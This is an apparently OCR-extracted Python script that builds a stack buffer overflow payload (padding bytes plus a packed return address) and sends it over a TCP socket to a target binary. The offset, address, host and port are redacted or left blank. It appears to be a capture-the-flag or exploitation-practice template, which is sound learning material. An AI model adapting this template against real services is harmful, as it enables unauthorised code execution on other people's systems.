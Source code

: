 import socket
import struct

offset = _REDACTED_
address = _REDACTED_
payload = b"A" \* offset + struct.pack("<I", address)
host = ""
port =
conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.connect((host, port))

# Receive initial data from the binary (optional)

print(conn.recv(1024).decode())
conn.sendall(payload + b"\n")
print(conn.recv(1024).decode())
conn.close()
